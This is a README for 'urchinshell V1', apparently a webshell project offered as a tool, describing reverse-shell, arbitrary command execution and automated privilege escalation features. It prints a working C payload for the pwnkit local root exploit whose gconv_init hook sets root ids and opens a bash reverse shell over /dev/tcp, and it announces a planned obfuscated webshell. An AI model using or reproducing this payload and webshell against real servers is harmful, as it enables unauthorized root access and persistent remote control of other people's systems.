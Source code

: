 # urchinshell V1

This webshell can be used for multi-purposed especially most if you want to manage your web server but you are in an emergency , so why not use a webshell:)
**DISCLAIMER : ILLEGAL USE OF OUR TOOLS INCLUDING THIS WEBSHELL WILL NOT HAVE US BEING HELD RESPONSIBLE AT ALL!**

### How To Use

Currently has three features which are :
#### Automate-Privesc
this allows you to put in a base64 encoded string which contains the code run in poppy but with an execution of reverse-shell instead , which means when you execute it , it shall directly test and exploit pwnkit vulnerability using poppy, the payload should be something like this:
```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);  
  system("/usr/bin/sudo -u root /usr/bin/bash -c '/usr/bin/bash -i &>/dev/tcp/127.0.0.1/1337 <&1'");
  exit(0);
}
```
#### Reverse Shell
this is a classic one , you just put in your IP and Port and you shall definitely get shell access back to your listener if you are having trouble using the shell feature and you want to use a shell instead:

![Screenshot_20220202_001555](https://user-images.githubusercontent.com/49201347/152052883-bb57b9ef-61aa-4869-9170-84ea11120548.png)

#### Shell Exec
Allows you to execute shell commands , just by typing your command and clicking execute

![Screenshot_20220202_001938](https://user-images.githubusercontent.com/49201347/152053380-b68558ea-2778-46e9-931d-516234a74940.png)

## V2 UPDATE INFO
Version two will be updated with the following new features:

1. MYSQL Connector
2. Obfuscated Web-Shell
3. Real-Time Shell Spawn

## CONTACT US

If you wish to contribute or give a suggestion or need to contact us :

email : urchinsec@protonmail.com
discord : https://discord.gg/red66VCSEp
